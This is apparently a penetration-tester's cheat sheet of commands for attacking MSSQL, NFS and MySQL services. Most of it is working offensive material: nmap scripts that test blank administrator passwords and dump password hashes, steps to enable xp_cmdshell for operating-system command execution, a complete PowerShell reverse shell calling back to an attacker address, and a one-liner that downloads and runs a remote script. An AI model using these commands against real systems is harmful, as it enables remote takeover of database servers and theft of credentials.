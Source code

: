     nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>      
To connect:   

    sqsh -S 10.10.10.10 -U user -P password    
    /usr/share/doc/python3-impacket/examples/mssqlclient.py   #use impacket script to connect    
    /usr/share/doc/python3-impacket/examples/mssqlclient.py HOST/username:password@10.10.10.10 -windows-auth  #log onto a Windows box  
    
Running shell commands using xp_cmdshell (reference article [here](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)):      

    enable_xp_cmdshell  #enable if using mssqlclient.py    
    SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';  #check if enabled    
    sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;    #configure and enable xp_cmdshell      
    xp_cmdshell 'whoami';    
    
Get a reverse shell using xp_cmdshell (host rev.ps1 file on attack box webserver):    

    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()       

    EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.10.10:8000/rev.ps1") | powershell -noprofile'   #exec PowerShell script   

### TCP Port 2049: NFS 
	
[Pentesting NFS](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)  
[No root squash](http://fullyautolinux.blogspot.com/2015/11/nfs-norootsquash-and-suid-basic-nfs.html)
	
    showmount -e 127.0.0.1
    mkdir /mnt/share   
    sudo mount -t nfs -o v2 127.0.0.1/share /mnt/share -o nolock 
	
### TCP Port 3306: MySQL
Attempt to brute force login.   
Look for http or https sites - might be SQLi vulnerability.  
	
	mysql -h 10.10.10.10 -u root -p    
	nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>   
	

Once connected to a SQL server through a CLI:    

       show databases;    
       use db_name;    
       show tables;    
       show columns from table_name;    
       select * from table_name;    
	
